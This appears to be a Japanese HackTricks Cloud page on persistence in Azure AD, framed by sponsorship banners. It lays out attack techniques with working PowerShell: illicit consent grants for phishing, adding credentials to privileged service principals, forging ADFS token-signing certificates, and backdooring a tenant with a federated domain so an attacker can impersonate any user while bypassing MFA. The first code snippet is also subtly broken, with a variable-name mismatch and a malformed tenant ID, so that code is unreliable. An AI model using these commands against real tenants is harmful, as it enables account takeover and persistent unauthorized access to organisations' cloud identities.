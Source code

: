 # Az - 永続性

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

### 不正な同意付与

デフォルトでは、任意のユーザーがAzure ADでアプリケーションを登録できます。したがって、ターゲットテナント専用のアプリケーションを登録し、管理者の同意（管理者の場合は承認）を得ることができます。これにより、ユーザーの代わりにメールを送信したり、ロール管理などを行うなど、**フィッシング攻撃を実行**することができます。成功した場合、これは非常に**有益**です。

さらに、自分のユーザーとしてそのアプリケーションを受け入れることもでき、アクセスを維持する手段として利用できます。

### アプリケーションとサービスプリンシパル

アプリケーション管理者、GA、またはmicrosoft.directory/applications/credentials/update権限を持つカスタムロールの特権を持っている場合、既存のアプリケーションに資格情報（シークレットまたは証明書）を追加することができます。

**高い権限を持つアプリケーションをターゲット**にすることも、**高い権限を持つ新しいアプリケーション**を追加することも可能です。

アプリケーションに追加する興味深い役割は、**特権認証管理者ロール**です。これにより、グローバル管理者の**パスワードをリセット**することができます。

このテクニックはまた、**MFAをバイパス**することも可能です。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 証明書ベースの認証の場合

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### フェデレーション - トークン署名証明書

オンプレミスのADで**DA特権**を持っている場合、非常に長い有効期間を持つ**新しいトークン署名**および**トークン復号証明書**を作成およびインポートすることが可能です。これにより、ImuutableIDを知っている任意のユーザーとして**ログイン**することができます。

以下のコマンドを**ADFSサーバー上のDAとして実行**して、新しい証明書（デフォルトのパスワードは「AADInternals」）を作成し、ADFSに追加し、自動ロールオーバーを無効にし、サービスを再起動します。
```powershell
New-AADIntADFSSelfSignedCertificates
```
次に、Azure ADで証明書情報を更新します。
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### フェデレーション - 信頼されたドメイン

テナントでGA特権を持っている場合、**新しいドメインを追加**することが可能です（確認済みである必要があります）。認証タイプをフェデレーションに設定し、ドメインを**特定の証明書**（以下のコマンドのany.sts）と発行者に信頼させることができます。
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考文献

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
